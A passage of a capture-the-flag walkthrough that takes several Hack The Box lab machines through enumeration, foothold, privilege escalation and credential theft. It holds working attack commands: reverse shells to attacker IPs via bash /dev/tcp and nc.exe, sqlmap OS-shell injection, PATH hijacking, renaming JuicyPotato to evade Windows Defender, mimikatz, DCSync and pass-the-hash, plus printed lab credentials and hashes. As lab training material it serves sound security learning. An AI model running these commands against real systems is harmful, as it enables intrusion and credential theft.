<!--<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 
-->

### &#9702;  Privilege Escalation
======================

The **id** command reveals that **robert** is a member of the
**bugracker** group.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We can enumerate the filesystem to see if this group has any special
acces
```shell
robert@oopsie:/$  find  / -type  f  -group  bugtracker  2>/dev/null
/usr/bin/bugtracker
```
<!--<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 
-->
Let’s list what is inside the directory
```shell
 robert@oopsie:/$  ls -al /usr/bin/bugtracker
-rw*s*r-xr-- 1  root_bugtracker 8792  Jan  25 10:14  /usr/bin/bugtracker
```
<!--<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 
-->

We could have use also the following command to concatenate the two
commands:
```shell
robert@oopsie:/$  find / -type f -group bugtracker 2>/dev/null | xargs  ls -al
```
#### &#x25B9;  ***Setuid***

<!--<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 
-->

We can see that there is a special permission on the file “**s**”.
```shell
robert@oopsie:/$  ls -al /usr/bin/bugtracker
-rwsr-xr-- 1  root_bugtracker 8792  Jan  25 10:14  /usr/bin/bugtracker
```


That is the "setuid" bit, which tells the OS to execute that program
with the userid of its owner.This is typically used with files owned by
root to allow normal users to execute them as root with no external
tools (such as sudo).

**SUID** is a special file permission for executable files which enables
other users to run the file with effective permissions of the file
owner. Instead of the normal x which represents execute permissions, you
will see an **s** (to indicate **SUID**) special permission for the
user.

**SGID** is a special file permission that also applies to executable
files and enables other users to inherit the effective **GID** of file
group owner. Likewise, rather than the usual x which represents execute
permissions, you will see an **s** (to indicate **SGID**) special
permission for group user.

Let's run the **bugtracker binary** and see what it does.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


It seems to output a report based on the ID value provided. Let's use
strings to see how it does this.
``` shell 
robert@oopsie:/$  strings  /usr/bin/bugtracks
/lib64/ld-linux-x86-64.so.2
Libc.so.6
…..
…..
- - - - - - - - - - -
: EV Bug Tracker :
- - - - - - - - - - -
Provide Bug ID:
- - - - - - - - - - -
cat /root/reports/
;*3$”
GCC: (UBUNTU 7.4.0-1ubuntu1~18.04.1) 7.4.0

```
<!-- <<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> -->


<!-- <SNIP> -->
<!-- <<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> -->

We see that it calls the “**cat”** binary using this relative path
instead of the absolute path.

Let have a look to current \$PATH
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


By creating a malicious cat and by modifying the path to include the
current working directory, we should be able to abuse this
misconfiguration, and escalate our privileges to root. Let's add the “**tmp**” directory to PATH
``` shell 
robert@oopsie:/$  export PATH=/tmp:$PATH
robert@oopsie:/$  export PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/usr/games:/usr/local/games
```
<!-- <<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> -->

Then we move into the tmp folder:
``` shell 
robert@oopsie:/$  cd /tmp/
```

Let’ create ***a malicious cat***,
``` shell 
robert@oopsie:/tmp$  echo '/bin/sh' > cat
```

Let's make it executable.
``` shell 
robert@oopsie:/tmp$  chmod +x cat
```

Now, after making our “malicious” cat executable if we search for the
cat executable with the “which” command we will see:
``` shell 
robert@oopsie:/tmp$  which  –a  cat
/tmp/cat
/bin/cat

```

<!-- <<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> -->

PATH is an environmental variable in Linux and other Unix-like operating systems that tells the shell which directories to search for executable files (i.e., ready-to-run programs) in response to commands issued by a user.  The first “cat” command to be executed will be "**our malicious**" “/tmp/cat”, so by running the bugtracker binary we will have access to a root shell..

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

If we check the current effective user ID with “whoami”, we will see that we are now **root**.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


### &#9702;  Post Exploitation
===================

Inside root's folder, we see a .config folder, which contains a
FileZilla config file with the credentials **ftpuser** and **mc@F1l3ZilL4**
visible in plain text.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


## &#9656; VACCINE 

### &#9702; About
This box features working with MD5 hashes and escaping user context to root by exploiting sudoer misconfiguration
<ul>
<li>Machine : <b>Vaccine</b> </li>
<li>Ip: <b>10.10.10.46</b></li>
</ul>


### &#9702; Enumeration
======================

***nmap -sC -sV 10.10.10.46***

Running a simple Nmap scan reveals three open ports running, for FTP,
SSH and Apache respectively.
```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-03 10:28 EDT
Nmap scan report for 10.10.10.46
Host is up (0.041s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds

```
The credentials **ftpuser** with  **mc@F1l3ZilL4** can be used to login to the
FTP server.

***ftp 10.10.10.46***

  ``` code 
ftp 10.10.10.46
Connected to 10.10.10.46.
220 (vsFTPd 3.0.3)
Name (10.10.10.46:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.

```
Let’s see what is in there:
``` code
 Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2533 Feb 03 11:27 backup.zip
226 Directory send OK.

  ```

A file named **backup.zip** is found in the folder. Let get the \*.zip
file:
``` code
ftp> get backup.zip
local: backup.zip remote: backup.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.00 secs (1.1824 MB/s)
ftp> 
741852963        (backup.zip)
```
Extraction of the archive fails as it's password protected. The password
can be cracked using **zip2john**, **JohntheRipper** and
**rockyou.txt**.

The zip2john tool will be used to process the input ZIP files into an
**hash** format suitable for use with JohntheRipper
``` code
zip2john backup.zip > hash
```
The rockyou.txt file (with the passwords) is located here :
``` shell 
locate rockyou.txt
/usr/share/wordlists/rockyou.txt.gz
  ```

To extract the **rockyou.txt.gz** file we use the **gunzip** command:
``` shell 
gunzip /usr/share/wordlists/rockyou.txt.gz
 ```

Now it is possible to use the **JohntheRipper** tool as sown below:
``` shell 
john  hash  --fork=4 -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1 1g 0:00:00:00 DONE (2020-07-03 11:33) 100.0g/s 25600p/s 25600c/s 
.......
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
As we can see, the password for the backup.zip file is found to be
**741852963**

Extracting it's contents using the password reveals a PHP file and a CSS
file.
``` shell 
unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 
  inflating: index.php               
  inflating: style.css  
```
Inspecting the PHP source code, we find a login check.
``` code
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

```
The input password is hashed into a MD5 hash:
**2cb42f8734ea607eefed3b70af13bbd3**. T

This hash can be easily cracked using an online rainbow table such as
crackstation.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

The result is : **qwerty789**

### &#9702; Foothold
======================

Browsing to port 80, we can see a login page for MegaCorp.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


The credentials **admin / qwerty789** can be used to login.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

The page is found to host a Car Catalogue, and contains functionality to
search for products.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
Searching for example fo the term “a”, results in the following request.

``` code
http://10.10.10.46/dashboard.php?search=a
```


<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

The page takes in a GET request with the parameter search. This URL is
supplied to sqlmap, in order to test for SQL injection vulnerabilities.
The website uses cookies, which can be specified using --cookie.

Right-click the page and select Inspect Element. Click the Storage tab
and copy the PHP Session ID.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

WE see the PHPSESSID value is :"**gub9n3ugpgc5obsre8jkv8tq3m**"

We can construct the Sqlmap query as follows:

``` shell
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a’--cookie="PHPSESSID=gub9n3ugpgc5obsre8jkv8tq3m"
```

Sqlmap found the page to be vulnerable to multiple injections, and
identified the backend DBMS to be PostgreSQL.

***Getting code execution in postgres is trivial using the --os-shell command.***
``` shell 
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=gub9n3ugpgc5obsre8jkv8tq3m" --os-shell 
....
[*] starting @ 15:32:32 /2020-07-03/
....
....
Parameter: search (GET)
....
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 8079=(SELECT 8079 FROM PG_SLEEP(5))-- dEyh
....
....
[15:32:34] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[15:32:34] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


### &#9702; Privilege Escalation


This can be used to execute a shell  reverse shell .
``` shell 
bash  -c  'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Let's upgrade to a tty shell  and continue enumeration.
``` shell 
SHELL=/bin/bash script -q /dev/null
```
Let’s have a look to the source code of dashboard.php in /var/www/html.

The code reveals the postgres password to be: **P@s5w0rd!**

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


This password can be used to view the user's sudo privileges.

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


The user is allowed to edit the configuration **/etc/postgresql/11/main/pg_hba.conf** using vi. 
This can be leveraged to gain a root shell and access root.txt.
Once opened the file in “*Vi*” editor with sudo, we can try to spawn a TTY shell from within vi by typing one of the following command (link):
•	: ! bash  
•	: set shell=/bin/bash:shell
•	: ! /bin/bash

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


As we can see, now we have a TTY as root.

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


## &#9656; SHIELD 

### &#9702; About


This box features only a root flag. Don't waste your time on finding the user.txt - until this is corrected by the Dev Team. I've raised this issue already, so this article will be updated accordingly when status is changed. UPDATE: Apparently this is solved right now and information "No Flag" for user flag is shown correctly both for Shield and Vaccine.
<ul>
<li>Machine : <b>Shield</b> </li>
<li>Ip: <b>10.10.10.29</b></li>
</ul>


### &#9702; Enumeration
======================

***sudo nmap -sC -sV 10.10.10.29***


``` shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-09 12:59 EDT
Nmap scan report for 10.10.10.29
Host is up (0.044s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
From the Nmap output, we find that **IIS** and **MySQL** are running on
their default ports. IIS (Internet Information Services) is a Web Server
created by Microsoft. Let's navigate to port 80 using a browser.

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


We see the default IIS starting page.

Let's use GoBuster to scan for any sub-directories or files that are
hosted on the server.

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


We do found the “/**wordpress”** folder.

WordPress is a Content Management System (CMS) that can be used to
quickly create websites and blogs.

Let’s do another search using “dirsearch” and pointing directly to that
folder

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


We do see some interesting folder and files.

Since we have already acquired the password **P@s5w0rd!,** we can try to
login to the WordPress site.

We navigate to http://10.10.10.29/wordpress/wp-login.php and try to
guess the username.

Some common usernames are **admin** or **administrator**.

The combination **admin** : **P@s5w0rd!** is successful and we gain
administrative access to the site.

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


### &#9702; Foothold


The administrative access can be leveraged through the msfmodule
**“exploit/ unix/webapp/wp\_admin\_shell \_upload”**, to get a
meterpreter shell  on the system. Let’s follow the following commands in
order to get a session:
``` script 
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
<br>
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Now that we got a meterpreter shell , we can use netcat (nc.exe) tp get a
more stable shell .

So let’s locate the binary.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Let’s copy **nc.exe** into our “Tools” directory

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
<br>
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


From within the meterpeter session, let’s move to oyr local Toolsdirectory
``` script 
kali@kali: ~/HTB/StartingPoint/Tools $ pwd
/home/kali/HTB/StartingPoint/Tools
```
<!-- <div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> -->


We can use the **lcd** command ( **lcd** stands for "**Local Change
Directory**", which we use to navigate to the local folder where
*nc.exe* is located.)
``` script 
meterpreter  >  lcd
Usage:  lcd  directory
```
<!--  <div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> -->

So, let’s move to the “**/home/kali/HTB/StartingPoint/Tools**” folder wherethe “nc.exe” binary is located
``` script 
meterpreter  >  lcd  /home/kali/HTB/StartingPoint/Tools
```
<!--<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
-->
We then navigate to a writeable directory on the server (in our case
**C:/inetpub/wwwroot/wordpress/wp-content/upload**s) and upload netcat.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

The command to use is the “upload” command: **upload nc.exe**
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

We can see now the nc.exe program in the “upload” folder
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

### &#9702; ***Using Netcat***

On another terminal we can now launch a listener
``` shell 
kali@kali: ~/HTB/StartingPoint/Tools $  nc –lvp 1234
listening  on  [any]  1234 …
```
<!--<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
-->
Next, we can execute the meterpeter followinginto the meterpreter session

``` code
meterpreter  >  execute  -f  nc.exe  -a  "-e  cmd.exe  10.10.14.16  1234"
```
<!--
``` shell 
10077/rwxrwxrwx  59392  fil  2020-07-12  15:23:12  -0400  nc.exe
meterpreter  >  pwd
C:\inetpub\wwwroot\wordpress\wp-content\uploads
meterpreter  >  execute  -f  nc.exe  -a  "-e  cmd.exe  10.10.14.16  1234"
Process  632  created.
```
-->
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


And we get a netcat shell :
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


### &#9702; Privilege Escalation
======================

Running the “**sysinfo**” command on the meterpreter session, we notice
that this is a Windows Server 2016 OS, which is vulnerable to the
*Rotten Potato* exploit.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Let’s download the “**JuicyPotato.exe**” binary frome here :
*https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe*

Let’s save the binary into our “**Tools”** folder
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ></div>


***NOTE:*** Sometimes browser does not allow the download
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


In this situation we can use the following command:
``` shell 
sudo  wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
Then with the lcd command we move to the “**Tools”** folder from the
meterpreter shell  and we procede with the upload of the
“JuicyPotato.exe” into the “**uploads”** folder.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


***NOTE:*** We will have to rename the Juicy Potato executable to
something else, otherwise it will be picked up by Windows Defender.

*From the meterpeter session we can use this command:*
``` shell 
mv  JuicyPotato.exe  js.exe
```
<!--
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
-->

From the reverse shell  on a Windows Machine we can use this command:
``` shell 
rename  JuicyPotato.exe  js.exe
```
<!--
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
-->


Below the executed command
``` shell 
C:\inetpub\wwwroot\wordpress\wp-content\uploads> rename  JuicePotatao.exe  js.exe
Rename JuicePotato.exe js.exe
```
<!--
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
-->

<!--
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
-->

<!--
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
-->
From our shell , we can create a batch file that will be executed by the
exploit, and return a SYSTEM shell . Let's add the following contents to
***shell .bat***:
Below the executed command
``` shell 
echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.2 1111 > shell.bat
```
 
``` shell 
C:\inetpub\wwwroot\wordpress\wp-content\uploads>dir
dir

….
07/13/2020   11:55  AM                              98 shell.bat
….
….
```


Let's start, from another terminal, another netcat listener:
<div style="width:100%; background-color:#252b34;text-align: left;;border: 1px solid black;" ></div>


Next, we execute the netcat shell  using the JuicyPotato binary(js.exe):
``` shell 
kali@kali:$ js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


***NOTE:*** if our payload is not working, we can use another CLSID
``` shell 
Option to add : -c {bb6df56b-cace-11dc-9992-0019b93a3a84}
```
Now on the listener terminal we have a shell  as “**nt
authority\\system**”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


And we can have access to the **“root.txt”** file
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


### &#9702; Post Exploitation
===================

We can now try to dump cache password. using a tool named “**Mimikatz”**
<div style="width:100%; background-color:#252b34;text-align: left;;border: 1px solid black;"></div>


The 64 bit versione is the one we need
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


We use the meterpeter session to upload the “mimikatz.exe” file:
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


As a “**nt authority\\system**” we execute mimikatz and use the
**sekurlsa** command to extract logon passwords

``` shell 
./mimikatz.exe
 ```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


``` shell 
sekurlsa::logonpasswords
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


And we find the password “**Password1234!”** for domain user
“**Sandra”**.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


## &#9656; PATHFINDER 

<ul>
<li>Machine : <b>Pathfinder</b> </li>
<li>Ip: <b>10.10.10.29</b></li>
</ul>


### &#9702; Enumeration


This time we are going to use “masscan” (Mass IP port scanner)
```shell
root@kali:/# masscan -p 1-65535 10.10.10.30 -e tun0 --rate=1000
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Port **88** is typically associated with Kerberos

Port **389** with LDAP, which indicates that this is a Domain
Controller.

We note that WinRM is enabled on port **5985**.

We can attempt to enumerate Active Directory using the credentials we
obtained in a previous machine:

-   **sandra**

-   **Password1234!**

We can achieve this using a python bloodhound injester, but first, we
need to install **neo4j** and **BloodHound**.

``` shell 
kali@kali:$  sudo apt  install  neo4j
kali@kali:$  sudo apt  install  bloodhound
```
Let’s install now the python bloodhound injester **https://github.com/fox-it/BloodHound.py**
It can also be installed using pip:

``` shell 
kali@kali:$  sudo  pip install bloodhound
```
Let’s run the command

``` code
bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


The BloodHound injester created some json files ready to be imported
into BloodHound.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Next, we need to configure the neo4j service. We can accomplish this by
running the following command

``` shell 
kali@kali: ~/HTB/StartingPoint/Pathfinder$ sudo  neo4j console
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


You will be then prompted to insert or change(at first login) your
password.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


If connected we will see
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Next, we start BloodHound

```shell 
bloodhound --no-sandbox
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Ensure you have a connection to the database; indicated by a ✔️ symbol
at the top of the three input fields. The default username is neo4j with
the password previously set.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

Below before importing the .json files:
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Opening BloodHound, we can drag and drop the .json files, and BloodHound
will begin to analyze the data.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


We can select various queries, of which some very useful ones are
**Shortest Paths to High value Targets** and **Find Principles with
DCSync Rights**.

While the latter query returns this:
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Let’s select the domain “MEGACORP.LOCAL”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


The query will generate the below graph for domain “MEGACORP.LOCAL”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

We can see that the **svc\_bes** has **GetChangesAll** privileges to thedomain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


### &#9702; Lateral Movement


It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to *ASREPRoasting*. We can check this using a tool such as Impacket's GetNPUsers.
``` shell
  GetNPUsers.py megacorp.local/svc\_bes -request -no-pass -dc-ip 10.10.10.30
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


Below out TGT ticket
``` code
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:0969b177c87205436a4ef15e3227c3af$f967e09d463ebcfa60a01c5ddb3606de78b62d8629e8de55578236534abf7a8442f3b07dfe0b8fa622dceabb66586c99dec8a3e4629a099fb01acc5721e0ca5ebf59fa0f6841f456a7a855ded8fb2b5860066cca671c8ea362c335c5a1a0bde1a9091b629535fec165388e46b3069c002dd45569a89f6d30f9139911968364ae84bf06de3d39cdcbb3a44b373f71c3ff3f030f3896fa4f698693889e8677136e942d9ba1e3175dc70e67f1b998d52170f3347dcc766fda831f9cd5d1f7d94706f3b423a9bf75869a6772280f69d2f2855a3b855ee221f053478f7e54c98c7fde493f85ce3cec16e47f0c20ced4a65b14
```
Once obtained the TGT ticket for the **svc\_bes,** let’s save it into a
file called hash(it could be any name).
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

We could have also used:
``` shell 
GetNPUsers.py megacorp.local/svc\_bes -request -no-pass -dc-ip 10.10.10.30 | grep krb > hash
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
<a name="Sheffield19"></a>
We will use JTR in conjunction with rockyou.txt to obtain the plaintext
password (but we could have also used Hashcat)
``` shell 
kali@kali:~/HTB/StartingPoint/Pathfinder$  john hash -wordlist=/usr/share/wordlists/rockyou.txt
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

Below the password for **svc\_bes : Sheffield19**
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>

It is now possible to access the server as **svc\_bes** using **WinRM **

(With the **nmap scan** we noted that WinRM was enabled on port
**5985)**

<br>

 **Let’s install “*evil-winrm*” (Installation directly as ruby gem)**
```
kali@kali:~/HTB/StartingPoint/Pathfinder$ sudo gem install evil-winrm
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


And run it against 10.10.10.30 using “svc\_bes” credentials
``` shell
kali@kali:~/HTB/StartingPoint/Pathfinder$ sudo evil-winrm -i 10.10.10.30 -u svc\_bes -p Sheffield19
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


### &#9702; Privilege Escalation

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


In order to leverage the **GetChangesAll** permission, we can use secretsdump.py (link) from Impacket to perform a DCSync attack and dump the NTLM hashes of all domain users. 
```shell
kali@kali:~/HTB/StartingPoint/Pathfinder$ sudo secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc\_bes:Sheffield19@10.10.10.30
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


We can see the default domain Administrator NTLM hash
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>


We can use this in a *PTH attack* (Pass-the-Hash attack) to gain elevated access to the system.

For this, we can use Impacket's **psexec.py** as follow:
``` code
psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>
```
For <**NTML hash**>:<**NTLM hash**> we will use:

-   **NTML hash --> aad3b435b51404eeaad3b435b51404ee**

-   **NTLM hash --> 8a4b77d52b1845bfe949ed1b9643bb18**
```
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" class="zoom"></div>


An as we can see we gain elevated access to the system
<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div>


## &#9656; INCLUDED (Linux)


<ul>
<li>Machine : <b>Included (Linux)</b> </li>
<li>Ip: <b>10.10.10.55</b></li>
</ul>

### &#9702; Enumeration

Let’s run nmap with option –A  (to enable: OS detection, version detection, script scanning, and traceroute)
``` shell 
kali@kali: ~ $  sudo nmap -A -v 10.10.10.55
….
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.10.55/?file=index.php
|_https-redirect: ERROR: Script execution failed (use -d to debug)
```


From a TCP scan we found only port 80 (Apache httpd 2.4.29 ((Ubuntu)))

We can navigate to the website in a browser.

<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div>

Let’s try scanning the UDP ports

``` shell 
kali@kali: ~ $  sudo  nmap  -sU  -v  10.10.10.55
[sudo] password for kali:
...
Not shown: 999 closed ports
